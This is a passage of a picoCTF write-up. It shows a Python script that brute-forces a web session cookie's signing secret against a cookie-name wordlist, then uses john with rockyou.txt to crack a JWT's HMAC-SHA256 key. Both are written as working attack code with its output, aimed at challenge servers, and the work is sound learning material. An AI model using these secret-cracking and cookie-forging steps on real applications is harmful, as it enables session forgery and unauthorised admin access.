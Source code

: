 ```python
            # Check if the response contains 'picoCTF'
            if 'picoCTF' in response.text:
                print(f"Secret: {secret}\nSigned Cookie: {signed_cookie}\nResponse Text: {response.text}\n")
                exit
        except Exception as e:
            print(f"Error with secret '{secret}': {e}")

# Example usage
if __name__ == "__main__":
    # List of secrets to try
    secrets= ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

    # Sign the cookie with each secret
    signed_cookies = sign_cookie_with_secrets(secrets)

    # Check each signed cookie for the flag
    check_cookies_for_flag(signed_cookies)
```

- You will get to see the HTTP response that consists picoCTF, submit it and done!

---

## JaWT ScratchPad

### Description

> Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210
> 

### Solution

- The description suggests us to escalate into admin as it contains the flag.
- They have given a cookie when we signed in.
- The JWT token is signed with HMAC-SHA256 with is a hash that can be cracked, let’s try bruteforcing it with our very known **Rockyou.txt**

```bash
┌──(kali㉿kali)-[~/temp1]
└─$ cat jwt_token.txt 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaGkifQ.Xl1EkkX5mL4x4HDoLySJNj9GVBflZtlmY3Qdene3S-g

┌──(kali㉿kali)-[~/temp1]
└─$ john jwt_token.txt --format=HMAC-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 AVX 4x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***ilovepico***        (?)     
1g 0:00:00:03 DONE (2025-05-17 01:43) 0.3267g/s 2417Kp/s 2417Kc/s 2417KC/s iloveskitty..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

